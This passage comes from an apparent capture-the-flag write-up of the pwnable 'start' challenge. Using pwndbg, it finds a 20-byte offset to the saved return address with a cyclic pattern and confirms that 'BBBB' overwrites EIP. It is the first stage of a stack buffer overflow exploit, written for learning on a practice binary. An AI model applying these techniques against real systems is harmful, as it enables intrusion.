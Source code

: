 ```bash
 ESI  0
 EBP  0
 ESP  0xffffcafc ◂— 0x61616167 ('gaaa')
 EIP  0x61616166 ('faaa')
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
Invalid address 0x61616166




───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ esp 0xffffcafc ◂— 0x61616167 ('gaaa')
01:0004│     0xffffcb00 ◂— 0x61616168 ('haaa')
02:0008│     0xffffcb04 ◂— 0x61616169 ('iaaa')
03:000c│     0xffffcb08 ◂— 0x6161616a ('jaaa')
04:0010│     0xffffcb0c ◂— 0x6161616b ('kaaa')
05:0014│     0xffffcb10 ◂— 0x6161616c ('laaa')
06:0018│     0xffffcb14 ◂— 0x6161616d ('maaa')
07:001c│     0xffffcb18 ◂— 0x6161616e ('naaa')
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0 0x61616166 None
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

As this file is 32-bit ELF file, we take a look at EIP after input the cyclic pattern. Notice that `faaa` is in the EIP. Using `cyclic -l` we can determine the value of the offset.

```bash
pwndbg> cyclic -l faaa
Finding cyclic pattern of 4 bytes: b'faaa' (hex: 0x66616161)
Found at offset 20
```

To verify

```bash
pwndbg> pi print('A'*20+'B'*4)
AAAAAAAAAAAAAAAAAAAABBBB
pwndbg> run
Starting program: /mnt/c/Users/hzqzz/Downloads/pwnable/start
Let's start the CTF:AAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
 EAX  0x19
 EBX  0
 ECX  0xffffcae4 ◂— 0x41414141 ('AAAA')
 EDX  0x3c
 EDI  0
 ESI  0
 EBP  0
 ESP  0xffffcafc —▸ 0xffffcb0a ◂— 0xccb40000
 EIP  0x42424242 ('BBBB')
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
Invalid address 0x42424242

```